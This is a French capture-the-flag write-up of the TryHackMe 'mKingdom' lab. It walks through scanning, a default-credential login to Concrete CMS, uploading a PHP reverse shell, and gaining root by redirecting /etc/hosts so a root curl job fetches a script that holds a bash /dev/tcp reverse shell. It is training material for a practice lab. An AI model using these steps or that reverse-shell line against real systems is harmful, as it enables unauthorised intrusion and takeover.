<div align="center">

# **WriteUp/Guide [FR] - TryHackMe : mKingdom**

</div>

**Author:** [Damien D.](https://fr.linkedin.com/in/damien-d-9816121a9)

---


On continue la série "souvenirs d'enfance" avec [cette room dédiée à Mario](https://www.linkedin.com/redir/redirect?url=https%3A%2F%2Ftryhackme%2Ecom%2Froom%2Fmkingdom&urlhash=n3Q-&trk=article-ssr-frontend-pulse_little-text-block) ! 


Je commence comme d'habitude par mettre à jour mon /etc/hosts avec l'IP de la room et je lance mon fidèle scan nmap. 


```
-sS -sV -sC -O -p- -n -T4 10.10.10.250 > nmap && cat nmap
```


```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-19 15:42 CET
Nmap scan report for 10.10.10.250
Host is up (0.055s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0H N0! PWN3D 4G4IN
|_http-server-header: Apache/2.4.7 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.11 seconds
```


En se connectant sur le port 85 avec mon navigateur, on tombe sur une page de trolling et l'inspecteur ne donne rien de bien palpitant. Je poursuis avec gobuster. 


```
gobuster dir -u http://mkingdom.thm:85/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```


```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.206.110:85
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 284]
/.htaccess            (Status: 403) [Size: 289]
/.htpasswd            (Status: 403) [Size: 289]
/app                  (Status: 301) [Size: 314] [--> http://10.10.206.110:85/app/]
/index.html           (Status: 200) [Size: 647]
/server-status        (Status: 403) [Size: 293]
===============================================================
Finished
===============================================================
```


On tombe sur une page qui invite à cliquer plusieurs fois, et une fois cela fait, on arrive sur un blog blindé de lorem ipsum avec quelques formulaires mais aucun n'a donné quoique ce soit avec des tests du type <script>alert(1)</script>. Je jette un coup d'oeil à wappalyzer qui m'indique un service : Concrete CMS 



  
En fouillant un peu, il semble y avoir des exploits mais l'un d'entre eux nécessite d'accéder au dashboard et donc d'être loggé. En cherchant les configurations par défaut de ce service, je trouve un user : "admin". Mieux que ça encore, je teste le mot de passe "password" et ça fonctionne, me voilà dans l'interface de gestion du blog. 



  
En tant qu'admin, on a accès à pas mal de choses dorénavant dont l'upload de fichiers. Je me souviens plutôt bien d'un module d'apprentissage vraiment intéressant sur le sujet où il était question de modifier les fichier php pour qu'ils soient acceptés par le serveur. J'upload mon fichier php déjà configuré mais évidemment, ça coince. 



  
J'ai d'abord pensé à modifier les extensions tout comme les magic numbers avec hexedit mais rien n'a marché. Il y a en réalité beaucoup plus simple puisque l'interface nous permet tout simplement de choisir les formats acceptés ! En ajoutant php à la liste, on peut uploader notre fichier contenant le script qui ouvrira un reverse shell. 



  
Une fois le fichier uploadé, je prépare un listener sur le port paramétré dans mon fichier (le 5555 dans mon cas) et je clique sur le lien proposé par l'interface. Bim. 



  
J'essaie les choses basiques pour voir ce qu'il est possible de faire avec www-data mais ça ne donne rien. Pas de cronjob, pas de bin exploitable, pas d'accès au /etc/shadow (ça aurait été trop beau même pour une room facile). 



  
J'ai voulu fouiller l'arborescence du site mais c'était vraiment très laborieux. Alors j'ai pensé à autre chose : utiliser find pour trouver un fichier de base de données. J'ai commencé par chercher les fichiers contenant "db" mais ça donnait beaucoup trop de résultats inutiles. En revanche, depuis le dossier var/www/html/app/castle, on trouve des choses intréressantes. 


```
find . -name database*
```


  
Ok, on va pouvoir se logger en tant que toad mais avant ça, il faut passer à un shell interactif via python. 


```
python2 -c "import pty;pty.spawn('/bin/bash')"
```



  
En cherchant les fichiers exploitables, on tombe sur une fausse piste (je vous laisse le plaisir de découvrir vous-même le smb.txt) mais pas de flag. En listant les fichiers ainsi que les fichiers cachés, on trouve quand même un .bashrc auquel jeter un coup d'oeil. 



  
Le contenu est dense mais le PWD pourrait signifier "password". Les caractères et le == donnent l'impression d'une base64, chose qui se confirme avec cyberchef. 



  
Je le tente avec mario qui doit être l'utilisateur derrière qui se cache le flag. Et ça marche ! En revanche, cat ne fonctionne pas mais je me souviens d'une des premières rooms que j'ai faites sur THM où il fallait utiliser tac. Bonne nouvelle, cette astuce marche ici ! 



  


*What is root.txt?* 

 


On en vient à l'ascension de privilège. Je commence par voir si quelque chose est exploitable du côté des bins avec l'espoir de trouver quelque chose sur GTFOBins mais non. 



  
Rien non plus du côté de crontab. 



  
J'ai fouillé du côté des fichiers cachés, rien d'exploitable non plus donc je dégaine linpeas. Je mets en place un serveur sur ma machine et je lance un wget depuis le fichier /tmp sur la machine cible. Je rends le fichier exécutable avec chmod +x avant de le lancer. 



  

  
S'y retrouver n'est pas évident et j'ai passé pas mal de temps à chercher ce qui pouvait être utile ici. En fait, la faille, la voici : le /etc/hosts est modifiable par les utilisateurs du groupe mario. A première vue, rien de bien dramatique sauf que c'est inhabituel en termes de configuration. Si je m'appuie sur ma machine de pentest, je suis obligé de passer par sudo pour configurer le fichier à chaque nouveau lab puisque c'est un fichier sensible [comme l'indique ce site](https://www.linkedin.com/redir/redirect?url=https%3A%2F%2Fciq%2Ecom%2Fblog%2Fwhat-are-linux-hosts-files-and-how-do-you-use-them%2F&urlhash=FW14&trk=article-ssr-frontend-pulse_little-text-block). Autrement dit, on est sur une ascension de privilège qui se base sur une erreur de config. Maintenant, la question c'est pourquoi est-ce qu'on a cette main tendue et comment l'exploiter. J'imagine que le compte root lance quelque part des tâches qui nécessitent l'accès à /etc/hosts. 



  
La logique d'un lab voudrait qu'on puisse modifier ce fichier hosts pour bénéficier d'un accès root, sauf qu'aucune tâche planifiée ne semble se lancer. 


Alors je me suis dit qu'il est possible qu'une tâche se lance autrement en faisant appel à un host, et tout particulièrement à mkingdom.thm. J'ai donc lancé une boucle pour voir en temps réel si un processus faisait ça. 


```
while true; do
    ps aux | grep 'mkingdom.thm' | grep -v grep
    sleep 1
done
```


Et après quelques secondes, bingo ! On a bien une commande curl lancée par root. 



  
On va donc pouvoir "polluer" le /etc/hosts pour lancer un reverse shell sur notre machine grâce à l'accès en écriture de mario ! Tout ça nécessite plusieurs étapes : 


Créer un fichier counter.sh sur ma machine qui contiendra ce reverse shell. Attention, il faut respecter l'arborescence de la machine. 

 



  
```
#!/bin/bash
bash -i >& /dev/tcp/<mon ip>/<port d'écoute> 0>&1
```


2. Remplacer la ligne du /etc/hosts pour que l'ip de mkingdom pointe vers mon ip 


J'ai voulu faire les choses proprement en ne remplaçant que la ligne nécessaire mais ni nano ni sed ne fonctionne. Qu'à cela ne tienne, je passe par la méthode brutale : remplacer le fichier. 


```
echo "<mon ip>" /etc/hosts
```


3. Lancer un serveur python avec le port 85 depuis l'endroit où commence l'arborescence ainsi qu'un listener pour que le reverse shell se lance. Le script est appelé toutes les minutes, il ne faut donc pas attendre longtemps avant que ça ne fonctionne. 


  
Bilan de cette room : plus difficile que ce qu'on peut lire à droite à gauche et 60 points seulement, c'est clairement pingre comparativement à des simples rooms d'apprentissages évaluées à 240 ! Aussi, de nombreux writeups s'appuient sur pspy pour trouver le cron caché mais j'ai préféré faire ce chemin par moi-même et je ne le regrette pas. Ca aura été l'occasion de revoir la syntaxe des boucles sous bash. Résultat des courses, j'ai passé plusieurs jours à fouiller de la doc et je préfère que ça se passe comme ça, au moins, j'apprends ! Le début de la room aura été assez classique et rapide à trouver mais l'ascension de privilèges pour l'accès root était vraiment plus corsée. Je garde ça dans un coin de ma tête l'idée de manipuler le /etc/hosts et je retiens de ne surtout pas en donner l'accès aux utilisateurs comme ça ! 


